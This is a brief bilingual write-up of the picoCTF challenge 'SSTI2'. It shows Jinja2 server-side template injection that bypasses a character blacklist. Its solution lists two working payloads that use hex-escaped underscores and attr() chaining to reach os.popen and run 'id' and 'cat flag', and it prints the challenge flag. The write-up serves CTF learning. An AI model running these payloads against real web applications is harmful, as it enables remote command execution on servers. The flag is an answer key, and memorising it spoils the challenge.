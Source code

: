 # 9 - SSTI2

## Descripcion:
* I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.
* Server Side Template Injection
* Why is blacklisting characters a bad idea to sanitize input?

## Solucion:
* http://shape-facility.picoctf.net:55973
* {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
* {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
* picoCTF{sst1_f1lt3r_byp4ss_3cfcf706}

## Notas:
* ingresamos a la pagina
* probamos texto que corrompa y nos de la bandera
* decimos que nos de la bandera con cat flag
* bandera

## Referencias:
* https://onsecurity.io/article/server-side-template-injection-with-jinja2